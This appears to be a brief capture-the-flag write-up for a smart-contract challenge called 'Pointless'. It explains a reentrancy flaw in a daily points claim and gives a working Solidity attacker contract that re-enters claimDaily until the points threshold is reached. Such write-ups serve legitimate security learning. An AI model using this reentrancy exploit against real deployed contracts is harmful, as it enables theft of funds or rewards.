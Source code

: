 ### 12/4/23
# Pointless
## The other crypto

1. Full disclosure, I barely understand this stuff. The target smart contract is intended to let users increment their points by 10 each day with procces daily points. However, we can manipulate the allowed proccesing function to re-enter the program. The claim points function increments points and then increments time AFTER user allowed checks are complete. If we re-call the claim points function it will work again, since it hasn't incrememnted the date yet. This lets us recursively start a cascade of points. We just then need to check that we have enough points before allowing the claim points funciton to finish by terminating our checker. The code for this is below:

```
pragma solidity ^0.8.20;

interface IDailyClient {
    function processDaily(uint256 newPoints) external;
}

// or just copy over the class
interface IPointless {
    function claimDaily() external;
    function claimStreakReward(bytes32 token) external;

}

contract Demo is IDailyClient {
    IPointless immutable pointless;
    uint256 points;

    constructor(IPointless addr) {
      pointless = addr;
    }

    function processDaily(uint256 newPoints) external {
      // update internal point counter
      //points = newPoints;
      points = newPoints;
      if (points < 120) {
        pointless.claimDaily();
      }
    }

    function foo(bytes32 token) external {
        pointless.claimDaily();

        pointless.claimStreakReward(token);
    }
}
```

